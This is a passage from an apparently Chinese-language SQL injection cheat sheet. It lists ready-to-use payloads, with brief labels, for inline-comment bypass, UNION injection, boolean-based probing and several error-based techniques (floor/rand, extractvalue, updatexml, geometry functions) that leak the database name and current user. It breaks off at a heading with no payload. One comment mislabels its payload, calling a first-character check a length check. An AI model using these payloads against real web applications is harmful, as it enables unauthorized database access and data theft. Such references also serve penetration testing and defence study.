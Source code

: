 内联注释：

```
/*！...*/
```

### union注入

```
id =-1 union select 1,2,3   /*获取字段*/
```

### Boolean注入

```
id=1' substr(database(),1,1)='t'--+     /*判断数据名长度*/
```

### 报错注入

#### 1 floor()和rand()

```
union select count(*),2,concat(':',(select database()),':',floor(rand()*2))as a from information_schema.tables group by a       /*利用错误信息得到当前数据库名*/
```

#### 2 extractvalue()

```
id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)))
```

#### 3 updatexml()

```
id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1))
```

#### 4 geometrycollection()

```
id=1 and geometrycollection((select * from(select * from(select user())a)b))
```

#### 5 multipoint()

```
id=1 and multipoint((select * from(select * from(select user())a)b))
```

#### 6 polygon()

```
id=1 and polygon((select * from(select * from(select user())a)b))
```

#### 7 multipolygon()
